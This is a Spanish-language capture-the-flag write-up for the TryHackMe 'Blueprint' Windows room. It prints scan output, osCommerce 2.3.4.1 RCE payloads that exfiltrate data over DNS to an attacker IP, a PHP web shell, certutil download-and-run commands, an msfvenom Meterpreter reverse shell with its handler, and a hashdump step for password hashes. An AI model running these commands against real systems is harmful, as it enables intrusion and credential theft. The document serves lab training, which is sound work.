





TryHackMe - Blueprint

Contenido
| Titulo | Wgel CTF |
|---|---|
| Room | Blueprint |
| Info | Hack into this Windows machine and escalate your privileges to Administrator. |
| Puntos | 565 |
| Dificultad | Facil |
| Maker | MrSeth6797 |
MASSCAN & NMAP
Escaneo de puertos tcp/udp y sus servicios, nmap nos muestra varios puertos abiertos.
root@aoiri:~/tryhackme/blueprint# masscan -p1-65535,U:1-65535 blueprint.thm -e tun0
Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-12-13 06:32:11 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49154/tcp on blueprint.thm
Discovered open port 49159/tcp on blueprint.thm
Discovered open port 137/udp on blueprint.thm
Discovered open port 135/tcp on blueprint.thm
Discovered open port 8080/tcp on blueprint.thm
Discovered open port 139/tcp on blueprint.thm
Discovered open port 3306/tcp on blueprint.thm
Discovered open port 49152/tcp on blueprint.thm
Discovered open port 445/tcp on blueprint.thm
Discovered open port 49160/tcp on blueprint.thm
Discovered open port 49153/tcp on blueprint.thm
Discovered open port 49155/tcp on blueprint.thm
Discovered open port 443/tcp on blueprint.thm
# Nmap 7.80 scan initiated Fri Dec 13 00:33:25 2019 as: nmap -sV -sC -o nmap_scan blueprint.thm
Nmap scan report for blueprint.thm (blueprint.thm)
Host is up (0.23s latency).
Not shown: 987 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 7.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after: 2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open mysql MariaDB (unauthorized)
8080/tcp open http Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49159/tcp open msrpc Microsoft Windows RPC
49160/tcp open msrpc Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:a9:aa:22:09:2e (unknown)
| smb-os-discovery:
| OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
| OS CPE: cpe:/o:microsoft:windows_7::sp1
| Computer name: BLUEPRINT
| NetBIOS computer name: BLUEPRINT\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2019-12-13T06:35:06+00:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2019-12-13T06:35:05
|_ start_date: 2019-12-13T06:32:08
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 13 00:35:22 2019 -- 1 IP address (1 host up) scanned in 116.94 seconds
HTTP
Encontramos que en el puerto 8080 esta corriendo osCommerce.

GOBUSTER
Utilzamos gobuster en el directorio de oscommers para buscar archivos que puedan ser de utilidad.
root@aoiri:~/tryhackme/blueprint# gobuster dir -u http://blueprint.thm:8080/oscommerce-2.3.4/catalog/ -x php,html,txt,aspx,asp -t 15 -q -w /usr/share/wordlists/dirb/common.txt
/account_history.php (Status: 302)
/account_edit.php (Status: 302)
/ADMIN (Status: 301)
/admin (Status: 301)
/Admin (Status: 301)
/advanced_search.php (Status: 200)
/com2 (Status: 403)
/com2.php (Status: 403)
/com2.html (Status: 403)
/com2.txt (Status: 403)
/com2.aspx (Status: 403)
/com2.asp (Status: 403)
/com3 (Status: 403)
/com3.aspx (Status: 403)
/com3.asp (Status: 403)
/com3.php (Status: 403)
/com3.html (Status: 403)
/com3.txt (Status: 403)
/conditions.php (Status: 200)
/contact_us.php (Status: 200)
/cookie_usage.php (Status: 200)
/Download (Status: 401)
/Download.php (Status: 200)
/download (Status: 401)
/download.php (Status: 200)
/ext (Status: 301)
/images (Status: 301)
/Images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/Index.php (Status: 200)
/Login.php (Status: 200)
/login.php (Status: 200)
/lpt1 (Status: 403)
/lpt1.txt (Status: 403)
/lpt1.aspx (Status: 403)
/lpt1.asp (Status: 403)
/lpt1.php (Status: 403)
/lpt1.html (Status: 403)
/lpt2 (Status: 403)
/lpt2.php (Status: 403)
/lpt2.html (Status: 403)
/lpt2.txt (Status: 403)
/lpt2.aspx (Status: 403)
/lpt2.asp (Status: 403)
/nul (Status: 403)
/nul.php (Status: 403)
/nul.html (Status: 403)
/nul.txt (Status: 403)
/nul.aspx (Status: 403)
/nul.asp (Status: 403)
/opensearch.php (Status: 200)
/popup_image.php (Status: 200)
/prn (Status: 403)
/prn.php (Status: 403)
/prn.html (Status: 403)
/prn.txt (Status: 403)
/prn.aspx (Status: 403)
/prn.asp (Status: 403)
/product_reviews.php (Status: 302)
/products_new.php (Status: 200)
/pub (Status: 301)
/redirect.php (Status: 302)
/reviews.php (Status: 200)
/shipping.php (Status: 200)
/shopping_cart.php (Status: 200)
/specials.php (Status: 200)
/ssl_check.php (Status: 200)
/tell_a_friend.php (Status: 302)
SEARCSPLOIT
Con el nombre y la version de oscommerce encontramos varias vulnerabilidades y exploits que afectan a esta plataforma.

osCommerce 2.3.4.1 - Remote Code Execution
Utilizamos el exploit Remote Code Execution, nos permitira ejecutar comandos en el sistema, pero para ello debemos de configurar la ruta de la maquina en el exploit, de igual forma el payload que ejecuta una shell inversa no funciona ya que es un sistema windows.
Para poder ver el resultado de la ejecucion de nuestro comando podemos utilizar la tecnica de DNS exfil (y por los loles xd).
Nuestro payload se veria de la siguiente forma si deseamos ver el path donde estamos actualmente.
cmd.exe /C cd c:/ & 10.8.1.72 & for /f %i in (\' @echo %cd% \') do nslookup %i 10.8.1.72
Con la configuracion (IP, Puerto y directorio de la plataforma) realizada, podemos correr responder en la interfaz tun0, y al lanzar nuestro exploit nos aparecera la ruta en una solicitud de DNS de responder.

Vemos que desordenada la informacion pero el path actual es:
C:/xampp/htdocs/oscommerce.2.3.4/catalog/install/includes/
Sabiendo esto podemos verificar si podemos escribir y crear dentro de archivos con el payload:
payload = '\');'
payload += '$var = shell_exec("cmd.exe /C echo \'hello\' > hehe.txt & nslookup test 10.8.1.72 ");'
payload += 'echo $var;'
payload += '/*'
Vemos que que el archivo se creó exitosamente:

Utilizamos este pequeño codigo php para ejecutar comandos, lo alojamos en nuestra maquina y levantamos un servidor web con python3:
<?php echo shell_exec($_GET["cmd"]); ?>
Nuestro payload para descargar el archivo en la maquina utilizando certutil:
payload = '\');'
payload += '$var = shell_exec("cmd.exe /C certutil -urlcache -split -f http://10.8.1.72/shell.php shell.php & nslookup test 10.8.1.72 ");'
payload += 'echo $var;'
payload += '/*'

Vemos nuestro archivo y ejecutamos comandos:

Tenemos permisos de administrador en la maquina y podemos ver la direccion actual en la que nos encontramos, de igual forma podemos leer nuestra bandera que se encuentra en el directorio del usuario administrator.

Shell - Metasploit
Utilizando metasploit con certutil podemos obtener una shell y sacar el archivo que contiene los hash de los usuarios en windows para ello vamos a crear nuestro payload con msfvenom y poner a la escucha metasploit.
Msfvenom:
msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=1338 -f exe > shell.exe
Metasploit:
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 1338
exploit
Payload - exploit osCommerce:
payload = '\');'
payload += '$var = shell_exec("cmd.exe /C certutil.exe -urlcache -split -f http://10.8.1.72/shell.exe shell.exe & shell.exe & nslookup test 10.8.1.72 ");'
payload += 'echo $var;'
payload += '/*'
Obtuvimos una sesion meterpreter:

Para obtener los hash utilizamos el comando hashdump, los cuales podemos crackear utilizando john o hashcat: